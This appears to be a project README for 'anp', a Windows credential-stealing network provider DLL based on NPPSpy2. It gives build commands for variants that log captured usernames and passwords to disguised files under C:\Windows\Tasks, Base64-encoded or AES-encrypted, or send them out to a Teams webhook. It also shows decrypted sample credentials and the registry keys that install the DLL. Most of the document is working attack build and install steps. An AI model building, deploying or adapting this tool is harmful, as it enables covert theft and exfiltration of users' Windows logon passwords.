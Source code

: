 # anp

Network Provider tests based on [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek).

The logging structure is: 

```
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```


<br>

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 2. Store in a text file + AES-encryption

The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:

```
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:test.dll
```

This creates a file with a content similar to:

```
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

You can decrypt it using *decrypt_aes*:

```
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
python decrypt_aes.py  gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

And you get:

```
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 3. Send to Teams webhook + Base64-encoding

There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:

```
cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:test.dll
```

<br>

## 4. Send to Teams webhook + AES-encryption

You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```
cl /LD /DWEBHOOK_URL=L\"https://...\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:test.dll
```

<br>

--------------------

## Installation

```
HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order
- ProviderOrder -> Add anp
```

```
HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider
- Class = [REG_DWORD]2
- ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test\test.dll"
- Name = [REG_SZ]"anp"
```

